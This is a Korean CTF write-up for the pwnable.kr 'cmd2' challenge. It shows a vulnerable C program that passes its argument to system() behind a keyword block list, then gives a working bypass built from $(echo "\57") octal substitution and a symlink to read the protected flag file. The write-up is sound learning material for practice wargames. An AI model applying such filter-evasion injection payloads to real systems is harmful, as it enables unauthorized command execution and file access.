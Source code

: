 ```yaml
---
title: Pwnable KR - cmd2
slug: pwnable-kr-cmd2
date: 2016-04-25 19:39:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


## 문제

![Pwnable KR cmd2](pwnablr-kr-cmd2.png)

9점 문제.

cmd2.c의 내용은 아래와 같다.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "=")!=0;
    r += strstr(cmd, "PATH")!=0;
    r += strstr(cmd, "export")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, "`")!=0;
    r += strstr(cmd, "flag")!=0;
    return r;
}

extern char** environ;
void delete_env(){
    char** p;
    for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
    delete_env();
    putenv("PATH=/no_command_execution_until_you_become_a_hacker");
    if(filter(argv[1])) return 0;
    printf("%s\n", argv[1]);
    system( argv[1] );
    return 0;
}
```

/만 쓸 수 있으면 풀 수 있을 것 같다.
그렇다면 어떻게 필터링을 피할 수 있을까?

## 풀이

```sh
$ echo /
/
$ $(echo /)
-bash: /: Is a directory
```

위와 같은 쉘 스크립트의 특성을 활용해보자

$(echo /)bin$(echo /)cat flag

/bin/cat flag를 표현해봤다. 위처럼 그대로 넣으면 안되고,
아래처럼 좀 수정해서 넣어줘야 한다.

./cmd '$(echo "\57")bin$(echo "\57")cat flag'

/ 문자는 8진수 아스키 코드로 57이고, "로 감싸야 한다.
변형 없이 그대로 전달해야하므로 인자 전체는 '로 감싸야 한다.

마지막으로 flag만 필터를 피하면 되는데,
이건 cmd1 풀 때처럼 심볼릭 링크를 쓰면 된다.

아래는 풀이

```sh
mkdir /tmp/cmd2k
cd /tmp/cmd2k
ln -s /home/cmd2/cmd2 cmd2
ln -s /home/cmd2/flag f
./cmd2 '$(echo "\57")bin$(echo "\57")cat f'
```

아이 신나

